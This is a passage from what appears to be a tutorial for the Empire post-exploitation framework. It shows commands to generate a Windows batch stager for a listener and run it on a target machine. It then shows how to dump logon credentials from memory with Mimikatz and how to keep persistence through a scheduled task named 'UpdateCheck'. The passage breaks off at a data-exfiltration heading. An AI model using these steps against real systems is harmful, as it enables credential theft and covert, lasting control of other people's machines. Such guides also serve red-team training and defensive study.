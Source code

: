 2. **Generate an Agent:**

   - Use the `uselistener` command to select your listener and then generate a payload:

```shell
usestager windows/launcher_bat
set Listener my_listener
generate
```

3. **Deploy the Agent:**

   - Run the generated payload on the target machine to establish an agent connection.

### Running Modules on Agents
To run modules on compromised agents:

1. **Interact with an Agent:**

   - Use the `agents` command to list all active agents and interact with a specific agent:

```shell
agents
interact AGENT_NAME
```

2. **Run a Module:**

   - Use the `usemodule` command to run a specific module on the agent:

```shell
usemodule credentials/mimikatz/logonpasswords
execute
```

- **`usemodule credentials/mimikatz/logonpasswords`**: Executes Mimikatz to dump credentials from memory.

### Maintaining Persistence
To establish persistence on a compromised system:

1. **Select a Persistence Module:**

   - Choose a persistence module, such as a scheduled task:

```shell
usemodule persistence/schtasks
set Listener my_listener
set TaskName UpdateCheck
set TaskTrigger daily
execute
```

- **`usemodule persistence/schtasks`**: Creates a scheduled task for persistence.

### Data Exfiltration
To exfiltrate data from a compromised system:

1. **Choose an Exfiltration Module:**
